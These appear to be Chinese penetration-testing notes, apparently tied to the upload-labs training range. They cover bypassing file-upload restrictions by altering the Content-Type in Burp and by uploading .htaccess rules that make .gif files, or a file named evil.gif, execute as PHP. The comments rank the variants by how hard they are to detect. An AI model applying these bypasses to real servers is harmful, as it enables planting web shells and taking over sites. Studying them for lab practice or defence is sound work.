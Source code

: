 **绕过方法：**

burp抓包然后改一下Content-Type参数

##### .htaccess文件重写绕过

```
第一种、虽然好用，但是会误伤其他正常文件，容易被发现
<IfModule mime_module>
AddHandler php5-script .gif          #在当前目录下，只针对gif文件会解析成Php代码执行
SetHandler application/x-httpd-php    #在当前目录下，所有文件都会被解析成php代码执行
</IfModule>
第二种、精确控制能被解析成php代码的文件，不容易被发现
<FilesMatch "evil.gif">
SetHandler application/x-httpd-php   #在当前目录下，如果匹配到evil.gif文件，则被解析成PHP代码执行
AddHandler php5-script .gif          #在当前目录下，如果匹配到evil.gif文件，则被解析成PHP代码执行
</FilesMatch>
第三种、同1没太大区别
<IfModule mime_module>
AddType application/x-httpd-php .gif
</IfModule>
```

[upload-labs通关攻略（全） - 渗透一只狗 - 博客园 (cnblogs.com)](https://www.cnblogs.com/huajiaobuxiango/p/15968800.html#安装)

AddType application/x-httpd-php .php .phtml .php5

AllowOverride all
